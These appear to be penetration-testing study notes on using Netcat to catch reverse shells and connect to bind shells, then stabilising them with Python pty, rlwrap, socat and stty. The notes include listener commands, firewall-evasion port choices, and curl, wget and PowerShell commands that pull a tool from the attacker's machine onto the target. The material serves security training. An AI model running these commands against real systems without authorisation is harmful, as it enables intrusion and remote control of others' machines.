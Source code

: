# Netcat

Netcat is a fundamental tool in a pentester's toolkit for networking tasks. While it can perform a variety of functions, we'll focus on its use for shells.

#### Reverse Shells

* Reverse shells require shellcode and a listener.
*   To start a Netcat listener in Linux, use the following syntax:

    ```bash
    nc -lvnp <port-number>
    ```

    * **-l**: Tells Netcat to act as a listener.
    * **-v**: Requests verbose output.
    * **-n**: Instructs Netcat not to resolve host names or use DNS (details on this are beyond the scope of this room).
    * **-p**: Indicates that a port specification will follow.
* You can use any port number, but if you choose a port below 1024, you will need to use `sudo` to start your listener. It's often advisable to use well-known ports (like 80, 443, or 53) to increase the chances of bypassing outbound firewall rules on the target.
*   **Example**:

    ```bash
    sudo nc -lvnp 443
    ```
* After setting up the listener, you can connect back using various payloads, depending on the target environment.

#### Bind Shells

* For bind shells, we assume there is already a listener on a chosen port of the target. Our task is to connect to it.
*   The syntax for connecting to a bind shell is straightforward:

    ```bash
    nc <target-ip> <chosen-port>
    ```
* This command uses Netcat to make an outbound connection to the target on the specified port.

### Netcat Shell Stabilisation 

After connecting to a Netcat shell, the next step is to stabilize it, as these shells are very unstable by default. Here are some key points and techniques for stabilization:

#### Issues with Netcat Shells

* Netcat shells are non-interactive and can have formatting errors.
* Pressing Ctrl + C will terminate the shell.
* They are essentially processes running inside a terminal, not full-fledged terminals.

#### Technique 1: Python

* This technique is applicable only to Linux systems, which typically have Python installed by default. It involves three steps:
  1.  **Spawn a Better Shell**: Use the command:

      ```bash
      python -c 'import pty; pty.spawn("/bin/bash")'
      ```

      (If needed, specify the version of Python: `python2` or `python3`.)
  2.  **Set Terminal Type**: Run:

      ```bash
      export TERM=xterm
      ```

      This allows access to terminal commands like `clear`.
  3.  **Background the Shell**: Press Ctrl + Z, then in your terminal, run:

      ```bash
      stty raw -echo; fg
      ```

      This disables terminal echo, enabling tab autocompletes, arrow keys, and Ctrl + C functionality.
* **Note**: If the shell dies, input in your terminal won't be visible. To fix this, type `reset` and press enter.

#### Technique 2: rlwrap

* **rlwrap** provides access to history, tab autocompletion, and arrow keys immediately upon receiving a shell. However, some manual stabilization is still needed for Ctrl + C functionality.
*   Install rlwrap (not installed by default on Kali) with:

    ```bash
    sudo apt install rlwrap
    ```
*   Use rlwrap with a slightly different listener:

    ```bash
    rlwrap nc -lvnp <port>
    ```
*   This technique is particularly useful for stabilizing Windows shells. For Linux targets, you can further stabilize it by backgrounding the shell (Ctrl + Z) and using:

    ```bash
    stty raw -echo; fg
    ```

#### Technique 3: Socat

* Use an initial Netcat shell as a stepping stone to a more stable Socat shell. This method is limited to Linux targets.
*   Transfer a Socat static compiled binary to the target machine. A common method is to set up a web server on the attacking machine:

    ```bash
    sudo python3 -m http.server 80
    ```
*   On the target machine, use the Netcat shell to download the file:

    ```basic
    curl <LOCAL-IP>/socat -O /tmp/socat
    ```

    or

    ```bash
    wget <LOCAL-IP>/socat -O /tmp/socat
    ```
*   For Windows, use PowerShell to download the Socat binary:

    {% code overflow="wrap" %}
    ```bash
    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows\temp\socat.exe
    ```
    {% endcode %}

#### Terminal Size Adjustment

* To use text editors that rely on accurate terminal size, you may need to manually adjust the terminal's tty size.
*   Open another terminal and run:

    ```bash
    stty -a
    ```

    Note the values for "rows" and "columns."
*   In your reverse/bind shell, type:

    ```bash
    stty rows <number>
    ```

    and

    ```bash
    stty cols <number>
    ```

    (Replace `<number>` with the values obtained from the previous command.)
